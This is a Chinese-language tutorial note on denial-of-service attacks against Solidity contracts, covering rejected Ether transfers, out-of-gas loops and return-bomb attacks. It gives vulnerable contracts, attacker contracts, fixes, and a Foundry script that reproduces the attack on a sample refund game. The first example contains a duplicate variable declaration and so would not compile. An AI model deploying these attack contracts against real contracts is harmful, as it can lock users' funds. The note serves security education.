

# DoS：拒绝服务攻击

<font style="color:rgb(51, 51, 51);">Solidity 中的 DoS（Denial of Service：拒绝服务攻击）可以大致分为如下3种：</font>

* <font style="color:rgb(51, 51, 51);">拒绝 Ether 转账攻击</font>
* <font style="color:rgb(51, 51, 51);">Out of Gas Attack</font>
* <font style="color:rgb(51, 51, 51);">Returnbomb Attack</font>

# 拒绝ether攻击

<font style="color:rgb(51, 51, 51);">拒绝 Ether 攻击指的是，某些情况下，智能合约的运行逻辑中，其中一个部分是向某一地址转账，且没有检查该地址的类型（EOA or CA）。此时，若 receiver 是一个未实现 fallback/receive 的合约账户，那么便会导致整个函数执行失败，回滚。</font>

### <font style="color:rgb(51, 51, 51);">example：</font>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
  address public king;
  uint public king;

  function claimThrone() external payable {
    require(msg.value > balance,"Need to pay more to become the king");

    (bool sent,) = king.call{value:balance}("");
    require(sent,"Failed to send Ether");

    balance = msg.value;
    king = msg.sender;
  }
}
```

<font style="color:rgb(51, 51, 51);">当我们调用</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">claimThrone()</font></code><font style="color:rgb(51, 51, 51);">时，合约会尝试向</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">king</font></code><font style="color:rgb(51, 51, 51);">进行转账，但是若 king 是如下形象的合约账户：</font>

```solidity
contract KingOfHack {
  // some code

  receive() payable external {
    revert();
  }
}
```

<font style="color:rgb(51, 51, 51);">当该合约接收到 ether 时触发</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">receive()</font></code><font style="color:rgb(51, 51, 51);">函数，直接回滚，所以这会导致上面的合约无法继续运行。</font>

### <font style="color:rgb(51, 51, 51);">解决方法：</font>

<font style="color:rgb(51, 51, 51);">修改方法很简单，最简单的方法便是采用</font>**<font style="color:rgb(51, 51, 51);">“Pull Payment”模式</font>**<font style="color:rgb(51, 51, 51);"> 。</font>

### <font style="color:rgb(51, 51, 51);">Pull Payment 模式</font>

<font style="color:rgb(51, 51, 51);">Pull Payment 是一种设计模式，在这种模式下，合约不主动向用户转账（Push Payment），而是记录用户可以提取的余额，由用户主动调用合约中的提现函数来领取自己的资金。</font>

<font style="color:rgb(51, 51, 51);">这种模式的核心思想是：</font>

* **<font style="color:rgb(51, 51, 51);">不要主动转账（Push）。</font>**
* **<font style="color:rgb(51, 51, 51);">让用户自己提取资金（Pull）。</font>**

<font style="color:rgb(51, 51, 51);">使用该模式有很多优点：</font>

* **<font style="color:rgb(51, 51, 51);">避免转账失败</font>**<font style="color:rgb(51, 51, 51);">\ </font><font style="color:rgb(51, 51, 51);">如果用户地址是一个合约地址且没有实现</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">receive</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">或</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">fallback</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">函数，或者合约逻辑故意回滚，主动转账（Push Payment）可能会失败，导致整个交易回滚。Pull Payment 让用户自己发起提现，避免合约承担转账的责任。</font>
* **<font style="color:rgb(51, 51, 51);">防止重入攻击</font>**<font style="color:rgb(51, 51, 51);">\ </font><font style="color:rgb(51, 51, 51);">在 Push Payment 模式下，合约直接调用外部地址，可能引发重入攻击。而在 Pull Payment 中，提现过程由用户主动发起，合约内部无需主动调用外部地址，大大降低了重入攻击的风险。</font>
* **<font style="color:rgb(51, 51, 51);">提升灵活性</font>**<font style="color:rgb(51, 51, 51);">\ </font><font style="color:rgb(51, 51, 51);">Pull Payment 允许用户在需要时提取资金，而不需要立即接收，这在某些情况下（例如延迟支付）更加灵活。</font>

# <font style="color:rgb(51, 51, 51);">Out Of Gas Attack</font>

<font style="color:rgb(51, 51, 51);">Out Of Gas Attack 实际上由于大量的循环遍历，导致 gas 超过 gas limit 上限引起整个交易的回滚。</font>

<font style="color:rgb(51, 51, 51);">这是一个涉及到外部调用的攻击。我们对上一个例子进行修改：</font>

### <font style="color:rgb(51, 51, 51);">example</font>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
  address public king;
  uint public balance;
  mapping(address => uint256) public collectedAmount;

  function claimThrone() external payable {
    require(msg.value > balance, "Need to pay more to become the king");

    (bool sent, ) = king.call{value: balance}("");
    if (!sent) {
      collectedAmount[king] += balance; 
    }

    balance = msg.value;
    king = msg.sender;
  }

  function withdraw() external {
    uint256 amount = collectedAmount[msg.sender];
    require(amount > 0, "No funds to withdraw");

    collectedAmount[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "Failed to send Ether");
  }
}
```

<font style="color:rgb(51, 51, 51);">看起来我们解决了刚刚的问题，就算 king 是一个不能接收 ether 的合约，那我们就把金额存在 mapping 中，等待用户取领取（领取是否成功就和我们没什么关系了）。但是，又有了新的问题。</font>

<font style="color:rgb(51, 51, 51);">这里涉及到了外部调用，对于 king 合约的 receive 函数中的逻辑，是任意的，由于交易的原子性问题，当交易运行中，若 gas 超过了 gas limit，那么这笔交易就会回滚。我们可以这样来构造恶意的 KingOfHack 合约</font>

```plain
contract KingOfHack {
  // some code

    receive() payable external {
        while(true) {}
    }
}
```

<font style="color:rgb(51, 51, 51);">在新的攻击合约中，我们在 receive 函数中写了一个死循环，这导致当 KingOfEther 合约向我们转账时，会触发到这个死循环，这样就会导致整个交易 out of gas，交易回滚。</font>

### <font style="color:rgb(51, 51, 51);">解决方法</font>

<font style="color:rgb(51, 51, 51);">我们可以通过限制单笔交易的 gas 使用量来避免这个问题。我们对合约的</font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">claimThrone</font></code><font style="color:rgb(51, 51, 51);">函数进行如下的修改：</font>

```plain
function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{gas: 100000, value: balance}("");
        if (!sent) {
            collectedAmount[king] += balance; 
        }

        balance = msg.value;
        king = msg.sender;
    }
```

<font style="color:rgb(51, 51, 51);">这样，当外部调用消耗的 gas 达到 100000 时，</font>**<font style="color:rgb(51, 51, 51);">会导致外部调用回滚</font>**<font style="color:rgb(51, 51, 51);">。但是，由于整个交易的 gas 还有剩余，剩下的逻辑依然是可以成功执行的。</font>

# <font style="color:rgb(51, 51, 51);">Returnbomb Attack</font>

<font style="color:rgb(51, 51, 51);">刚刚修改后的代码看起来似乎又没有什么问题了，但是实际上还有一种 Dos 攻击：returnbomb Attack</font>

**<font style="color:rgb(51, 51, 51);">Return Bomb Attack</font>**<font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">是一种更为隐蔽的</font><font style="color:rgb(51, 51, 51);"> </font>**<font style="color:rgb(51, 51, 51);">DoS（Denial of Service）攻击</font>**<font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">类型，其原理是利用以太坊的</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">call</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">方法返回的数据量对合约进行攻击。在 Solidity 中，当一个合约通过</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">call</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">调用另一个合约时，如果返回的数据量非常大，会导致消耗大量 Gas，从而引发 Gas 限制或使交易失败。</font>

<font style="color:rgb(51, 51, 51);">虽然我们限制了外部调用的 gas，但是 returnbomb attack 消耗的 gas 并不是外部调用部分的 gas，而是外部调用执行完毕后，evm 会将运行后的 returndata copy 到 memory 中，若 return data 很大，会消耗大量的 gas 导致整个交易 out of gas，交易回滚</font>

**<font style="color:rgb(51, 51, 51);">原理：</font>**

* <font style="color:rgb(51, 51, 51);">在 Ethereum 中，</font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">call</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">方法会将目标合约返回的所有数据存储到调用合约的内存中。</font>
* <font style="color:rgb(51, 51, 51);">如果目标合约返回的数据非常大，会导致调用合约消耗大量 Gas 以分配和处理内存。</font>
* <font style="color:rgb(51, 51, 51);">这种高 Gas 消耗可能导致交易失败或阻止其他用户的正常操作。</font>

**<font style="color:rgb(51, 51, 51);">攻击方式</font>**<font style="color:rgb(51, 51, 51);">：</font>

* <font style="color:rgb(51, 51, 51);">攻击者部署一个恶意合约，返回非常大的数据块。</font>
* <font style="color:rgb(51, 51, 51);">当受害合约调用该恶意合约时，由于需要处理大量返回数据，Gas 被迅速消耗殆尽。</font>

<font style="color:rgb(51, 51, 51);">不过需要注意一点：</font>

<font style="color:rgb(51, 51, 51);">在防御 Out of Gas 攻击的代码中，由于单笔外部调用的</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">gas</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">限制被设置为</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">100,000</font></code><font style="color:rgb(51, 51, 51);">，当攻击者的合约试图通过</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">receive</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">函数返回大量数据来进行攻击时，</font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">gas</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">消耗会超出</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">100,000</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">的限制。此时，外部调用会因</font><font style="color:rgb(51, 51, 51);"> </font>**<font style="color:rgb(51, 51, 51);">Gas 不足（Out Of Gas）</font>**<font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">而直接失败，返回的错误信息将是</font><font style="color:rgb(51, 51, 51);"> </font>**<font style="color:rgb(51, 51, 51);">Out Of Gas</font>**<font style="color:rgb(51, 51, 51);">，而不是攻击合约中</font><font style="color:rgb(51, 51, 51);"> </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">receive</font></code><font style="color:rgb(51, 51, 51);"> </font><font style="color:rgb(51, 51, 51);">函数的逻辑触发的异常。所以，</font>**<font style="color:rgb(51, 51, 51);">returnbomb Attack 攻击时，并不是返回的数据越多越好</font>**<font style="color:rgb(51, 51, 51);">。最大数据量需要我们进行计算。</font>

<font style="color:rgb(51, 51, 51);">EVM 的 gas 消耗跟 memory 使用量的关系是：</font>

```plain
memory_size_word = (memory_byte_size + 31) / 32
memory_cost = (memory_size_word ** 2) / 512 + (3 * memory_size_word)
```

### <font style="color:rgb(51, 51, 51);">example</font>

```plain
contract KingOfHack {
    receive() external payable {
        assembly {
            return(0, `value`)
        }
    }
}
```

<font style="color:rgb(51, 51, 51);">针对这个例子的 ReturnBomb Attack 可能会失效， 因为其他逻辑对 gas 的消耗较少。不过改攻击在 Dos 攻击中确实存在，某些跨链协议就很有可能遭受 ReturnBomb Attack</font>

### <font style="color:rgb(51, 51, 51);">解决方法</font>

<font style="color:rgb(51, 51, 51);">我们可以在处理返回数据前，增加对返回数据长度的检查。 OpenZeppelin 合约安全库中有相关的安全库合约。</font>

# 实现

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for (uint256 i; i < pLength; i++) {
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns (uint256) {
        return address(this).balance;
    }
}

```

<font style="color:rgb(31, 35, 40);">这里的漏洞在于，</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">refund()</font></code><font style="color:rgb(31, 35, 40);"> 函数中利用循环退款的时候，是使用的 </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">call</font></code><font style="color:rgb(31, 35, 40);"> 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。</font>

<font style="color:rgb(31, 35, 40);">下面我们写个攻击合约， </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">attack()</font></code><font style="color:rgb(31, 35, 40);"> 函数中将调用 </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">DoSGame</font></code><font style="color:rgb(31, 35, 40);"> 合约的 </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">deposit()</font></code><font style="color:rgb(31, 35, 40);"> 存款并参与游戏；</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">fallback()</font></code><font style="color:rgb(31, 35, 40);"> 回调函数将回退所有向该合约发送</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">ETH</font></code><font style="color:rgb(31, 35, 40);">的交易，对</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">DoSGame</font></code><font style="color:rgb(31, 35, 40);"> 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。</font>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

import {DoSGame} from "./Dos.sol";

contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable {
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }

    receive() external payable {
        revert("DoS Attack!");
    }
}

```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";
import {DoSGame} from "../src/Dos.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        DoSGame dos = new DoSGame();
        Attack attack = new Attack();
        attack.attack{value: 10 ether}(address(dos));
        dos.refund();
        vm.stopBroadcast();
    }
}

```



复现成功，o如k


> 更新: 2025-07-29 20:53:27  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/rksvr6005rzgq0pm>